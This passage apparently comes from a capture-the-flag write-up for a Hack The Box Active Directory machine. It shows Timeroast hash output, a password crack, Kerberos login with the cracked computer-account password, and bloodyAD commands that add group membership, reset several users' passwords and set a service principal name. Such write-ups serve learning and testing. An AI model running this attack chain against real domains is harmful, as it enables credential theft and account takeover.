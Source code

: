     1119:$sntp-ms$b7231e4d8493fcd9d83eefe403ba25c9$1c0111e900000000000a05e64c4f434cec15da3e974fe296e1b8428bffbfcd0aec15e206174fa2d5ec15e206175005d1
    1121:$sntp-ms$0fe9b13cb02a6f6d5741fd95285c6be4$1c0111e900000000000a05e64c4f434cec15da3e97733226e1b8428bffbfcd0aec15e20617731098ec15e20617734648
    1120:$sntp-ms$b7b2d2625ff186d0b597494cbb3d5fef$1c0111e900000000000a05e64c4f434cec15da3e97515a65e1b8428bffbfcd0aec15e20617513221ec15e206175171e2
    1122:$sntp-ms$2e26fe0be6a540fe01d3c73dfdd69de2$1c0111e900000000000a05e64c4f434cec15da3e977a2489e1b8428bffbfcd0aec15e206177a02fbec15e206177a3550
    1123:$sntp-ms$517535e59f8d2b8b9016d0a2786198a9$1c0111e900000000000a05e64c4f434cec15da3e97c02cabe1b8428bffbfcd0aec15e20617c00ccaec15e20617c03bc4
    1124:$sntp-ms$d3531b1edd859379f5d105e5895d21f1$1c0111e900000000000a05e64c4f434cec15da3e944e12b2e1b8428bffbfcd0aec15e206182503c5ec15e20618252db6
    1125:$sntp-ms$4ff1451caf60d9d05efdbd1b0748751b$1c0111e900000000000a05e64c4f434cec15da3e9651d5b5e1b8428bffbfcd0aec15e2061a289621ec15e2061a2904dc
    1126:$sntp-ms$7e4e913d40d0be676c8bf5c35610f149$1c0111e900000000000a05e64c4f434cec15da3e9652fcfde1b8428bffbfcd0aec15e2061a29e0a4ec15e2061a2a19ae
    1127:$sntp-ms$84cdba7964a96d8f5fc9e492eb9f3d3c$1c0111e900000000000a05e64c4f434cec15da3e967d607de1b8428bffbfcd0aec15e2061a5440c9ec15e2061a547edd



```python
!python Timeroast/extra-scripts/timecrack.py timeroast.crack bigwords.txt 
```

    [+] Cracked RID 1125 password: Rusty88!
    
    1 passwords recovered.


It's worth noting there that the newest version of hashcat can crack this wayyyy faster. Also by looking up the RID of the account we're interested in, we can cut down a lot of waiting.


```python
!echo "Rusty88!" | KRB5_CONFIG=./krb5.conf KRB5CCNAME='./it-computer3.ccache' kinit it-computer3$
```

    Password for it-computer3$@RUSTYKEY.HTB: 
    Warning: encryption type arcfour-hmac used for authentication is deprecated and will be disabled


A note about "[Protected Users](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#protected-users)": These are effectively accounts that do not allow NTLM, nor do they obey the default configurations for kerberos TTL and kerberos ciphers. If we want to authenticate using anyone at all, we're going to need to remove them from this group.

At this point I'm finally using kerbrute witha  password list I'm maintaining locally. I'm spending a lot of time working through "what can dd.ali do" but it's all unnecessary because it-computer can do everything we actually need. This may be unintentional as I think it's intended for bb.morgan to do some work and maybe use dd.ali as a pivot for the impersonation, but whatever.

```sh
bloodyAD --host dc.rustykey.htb -d rustykey.htb -k add groupMember "HelpDesk" 'IT-Computer3$'
[+] IT-Computer3$ added to HelpDesk

bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password bb.morgan Password1234!
[+] Password changed successfully!

bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password gg.anderson Password1234!
[+] Password changed successfully!

bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set password dd.ali Password1234!
[+] Password changed successfully!

KRB5CCNAME=./dd.ali.ccache kinit dd.ali

KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set object dd.ali servicePrincipalName -v http/fakeservice
[+] dd.ali's servicePrincipalName has been updated

```
